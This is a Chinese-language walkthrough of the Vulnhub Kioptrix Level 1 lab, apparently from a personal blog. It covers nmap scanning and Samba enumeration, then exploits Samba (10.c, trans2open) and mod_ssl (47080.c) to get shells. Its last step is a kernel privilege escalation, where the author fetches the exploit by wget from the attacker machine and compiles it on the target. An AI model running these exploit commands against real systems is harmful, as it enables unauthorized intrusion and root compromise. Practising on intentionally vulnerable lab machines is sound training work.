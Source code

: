 Vulnhub - Kioptix Level 1

## 一、前言

### 简介：

Vulnhub是一个提供各种漏洞环境的靶场平台。



### 下载地址：

https://www.vulnhub.com/entry/kioptrix-level-1-1,22/



### 网络问题：

症状：

1、将靶机网络适配器修改为Nat模式后启动靶机，使用nmap对网段进行扫描会发现扫描不到靶机IP地址。

![image-20231226201204026](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312262012051.png)



解决方法：

1、将靶机在VMware中移除。

![image-20231226194201751](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312261942783.png)

2、以记事本打开此文件。![image-20231226194357878](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312261943922.png)

3、删除所有以 **`"ethernet0"`** 开头的条目并保存更改。

![image-20231226195235120](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312261952176.png)

4、 然后重新导入虚拟机，并重新添加虚拟网络适配器且将其网络模式设置为NAT模式。

![image-20231226195659175](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312261956214.png)

5、开启虚拟机，并重新使用nmap对网段进行扫描

![image-20231226200338448](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312262003490.png)



### 参考：

https://www.cnblogs.com/jason-huawen/p/16097208.html



### 靶场环境：

Kali IP：192.168.8.128

靶机 IP：192.168.8.129

网络适配器模式：NAT



## 二、Walkthrough

1、首先使用  **`nmap -sP`**  参数对网段进行扫描，扫描出靶机IP。

![image-20231226200338448](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312262003490.png)

2、扫描出IP后使用  **`nmap -sV`** 参数对靶机进行服务和版本探测。

![image-20231226204743693](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312262047723.png)

3、到这里后有几个思路，对开放端口进行深入信息收集。可以对80和443端口进行访问，看是否可以收集更多信息。（例如：CMS类型和版本、Web服务器类型和版本、操作系统类型和版本、目录扫描、robots.txt文件），如果CMS版本有历史漏洞可以尝试从该点切入。



### Samba

由于Samba的版本nmap没有扫描出来，这里使用 **`msfconsole`** 命令启动MSF，使用MSF自带的smb_version进行搜索。

![image-20231227204750201](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312272047297.png)

搜索到该模块后使用 **`use +序号`** 进行使用模块（这里是 **use0** ）,在使用该模块后使用 **`show options`** 命令查看该模块需要设置的功能点，这里发现RHOSTS 没有设置，将RHOSTS设置为靶机IP地址后，再次使用命令查看是否存在还需要设置的功能点，这里发现已经设置好了直接使用 **`run`** 命令使用模块，Samba版本为 **2.2.1a**。

![image-20231227205147361](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312272051411.png)

已知Samba版本使用`searchsploit samba`搜索到所有包含Samba的exp，这里使用可以远程命令执行的（网上搜的）。

![image-20231228190710699](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281907798.png)



#### Samba Remote Code Execution（RCE）

exp 文件路径为`/usr/share/exploitdb/exploits/multiple/remote/10.c` 使用`cp`命令将exp复制到合适的位置，我这里是复制到了**`/opt/exp`**文件夹下（需要使用root权限启动终端）。

![image-20231228190952110](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281909137.png)

 使用`gcc 10.c -o samba_exp`命令编译exp（-o 是输出，后面的是输出的文件名），编译完成后使用`chmod u+x`命令为用户添加执行权限。

![image-20231228191436417](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281914455.png)

使用`./samba_exp -b0 IP地址 `命令启动（-b 参数是platform，0为Linux），启动成功后成功getshell。

![image-20231228191847644](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281918674.png)



#### Samba trans2open

在互联网中查找资料后得知还有这种利用方式，而且msf中已经集成了该模块，直接启动msfconsole，使用命令搜索。

![image-20231229070238874](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312290702904.png)

搜索出来后直接使用 **use** 命令来使用并且设置LHOST、RHOSTS、Payload,但是这里遇到一个问题就是有时候会不成功，同一台Kali的另一个msfconsole窗口就可以成功获取shell。

![image-20231229070644032](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312290706087.png)

在另一个窗口中成功getshell，这里已经是root权限不需要提权。

![image-20231229070853181](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312290708214.png)



### rpcbind

111端口为rpcbind服务，该服务存在漏洞(该漏洞可使攻击者在远程rpcbind绑定主机上任意大小的内存(每次攻击最高可达4GB),除非进程崩溃或者管理员挂起/重启rpcbind服务，否则该内存不会被释放)。

nmap扫描已知版本为 **`rpcbind 2`** ,启动MSF 使用searchsploit命令看漏洞库中是否存在该漏洞。

1、使用msf自带的的模块扫描rpcbind，命令为

`use auxiliary/scanner/misc/sunrpc_portmapper`，设置 **RHOSTS**后直接**run**。

![image-20231228194643291](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281946330.png)

2、由于没找到什么有用信息，这里使用 **`searchsploit rpcbind`**命令搜索一下发现搜索到了三个Exp，把这三个**Exp**都复制下来后挨个使用发现都没有作用。

![image-20231228195256134](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281952163.png)



26887.rb

![image-20231228195212741](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281952772.png)



41974.rb

![image-20231228195416676](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281954709.png)



20376.txt

![image-20231228195507308](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281955335.png)

里面的网址也都不能访问，所以rpcbind这条路作罢。



### mod_ssl

由于nmap在信息收集的过程中收集到了mod_ssl的版本为2.8.4 ,这里使用命令`searchsploit mod_ssl 2.8`搜索Exp，复制搜索到的Exp到本地进行编译。

![image-20231228201852245](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282018276.png)



21671.c和764.c编译失败



47080.c

首先使用命令`gcc 47080.c -o 47080`进行编译发现编译失败，一番搜索后在后面添加参数 `-lcrypto`后编译成功，完整命令如下：

```
gcc 47080.c -o 47080 -lcrypto
```

使用命令`./47080`启动编译后的软件给我们了使用方法，在前期信息收集时可以得知操作系统为`Redhat Linux Apache的版本为1.3.20`

![image-20231228204732617](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282047655.png)

这里使用以下命令成功拿到低权限Shell，但是不知道为什么使用**0x6a**不成功。

```
./47080 0x6b 192.168.8.129(IP地址) 443 -c 50
```

![image-20231228205918440](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282059474.png)

后面就要考虑提权的问题了，提权的方法有很多，这里使用Linux内核漏洞提权，上面拿到低权限shell后使用`uname -a`命令查看内核版本。

![image-20231228211433421](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282114442.png)

直接搜索Exp并复制到`/opt/exp`目录下。

![image-20231228211549537](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282115664.png)

![image-20231228214322941](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282143966.png)

使用  **`python3 -m http.server`**  命令开开启HTTP服务。

![image-20231228214519952](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282145978.png)

在低权限shell中使用**`wget 192.168.8.128:8000/3.c`** 命令下载到靶机中，并使用`gcc 3.c -o exp`命令编译，编译后使用命令`./exp`启动，到这里提权成功。

![image-20231228215409847](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282154882.png)

## 三、总结

1、网络发现可以用netdiscover工具来找到靶机IP。

2、samba扫描工具可以使用以下几个

```
1、msf中的smb_version
2、enum4linux
```

